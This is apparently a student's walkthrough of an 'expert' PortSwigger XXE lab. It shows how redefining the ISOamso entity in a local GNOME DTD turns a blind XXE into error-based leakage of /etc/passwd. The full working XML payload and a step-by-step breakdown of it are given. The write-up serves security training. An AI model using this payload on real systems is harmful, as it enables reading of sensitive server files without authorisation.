


### Exploiting XXE to retrieve data by repurposing a local DTD : EXPERT

---


> Hint:
`Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.`


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.


> Viewing the `POST` request sent via HTTP history.



> Similar to [[Portswigger/XXE Injection/Lab 6|Lab 6]], it is a blind injection, and we can only use parameterized entities.
> To try and invoke error messages, we try to find a local DTD and redefine an element to cause the error message without using an external entity.
> Given by the hint, the file with the DTD: `/usr/share/yelp/dtd/docbookx.dtd` with the entity:`ISOamso`.

> We can create the payload:
```XML
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

1. Given an external DTD at location `/usr/share/yelp/dtd/docbookx.dtd` that has an entity called `ISOamso`.
2. We redefine the `ISOamso` to contain the error message payload as in [[Portswigger/XXE Injection/Lab 6|Lab 6]].
	1.  Create an XML parameter entity called `file` that contains the contents of the file `/etc/passwd`.
	2.  Create an XML parameter entity called `eval`. In is another parameter entity called `error`.
	3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
	4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
	5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.
3. We use the Web Encoding for special characters in recursive definitions of entities.
4. Finally, we call the `local_dtd` entity which triggers the error message.

> Adding this payload into the `POST` request and sending it gives the error message.



---
